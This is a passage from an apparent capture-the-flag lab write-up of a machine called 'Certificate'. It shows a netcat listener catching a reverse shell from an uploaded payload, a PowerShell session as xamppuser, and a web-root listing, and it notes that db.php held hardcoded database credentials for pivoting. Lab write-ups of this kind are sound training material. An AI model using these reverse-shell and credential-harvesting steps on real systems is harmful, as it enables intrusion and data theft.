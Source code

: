 <div style="margin-top: 20px;">
  <img src="/img/redteam/htb/certificate/recon-website-5.png" alt="Web Enumeration" style="width: 100%; max-width: 100%; border: 1px solid #444; border-radius: 4px;" />
</div>

<p class="indent-paragraph">
To catch the reverse shell connection, we started a listener on port 1234 using <code>rlwrap</code> in conjunction with Netcat for improved terminal interaction. Once the uploaded payload was accessed, a successful connection was established from the target host, spawning a PowerShell session with the privileges of the <code>xamppuser</code><span class="codefix">.</span> This confirms code execution and marks the initial foothold into the system.
</p>

```
~$ rlwrap nc -lvnp 1234                                                            
listening on [any] 1234 ...
connect to [IP] from (UNKNOWN) [IP] 63003

PS C:\xampp\htdocs\certificate.htb\static\uploads\uuid> whoami
certificate\xamppuser
 
```

<p class="indent-paragraph">
Once inside the target machine, we began inspecting the web root directory, where several relevant PHP files were located. Among them, the <code>db.php</code> file contained hardcoded database credentials, revealing the database name, username, and a valid password. This provided an opportunity to pivot into the underlying MySQL service for further enumeration or data extraction.
</p>

```
~$ PS C:\xampp\htdocs\certificate.htb> dir


    Directory: C:\xampp\htdocs\certificate.htb


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----       12/26/2024   1:49 AM                static                                                                
-a----       12/24/2024  12:45 AM           7179 about.php                                                             
-a----       12/30/2024   1:50 PM          17197 blog.php                                                              
```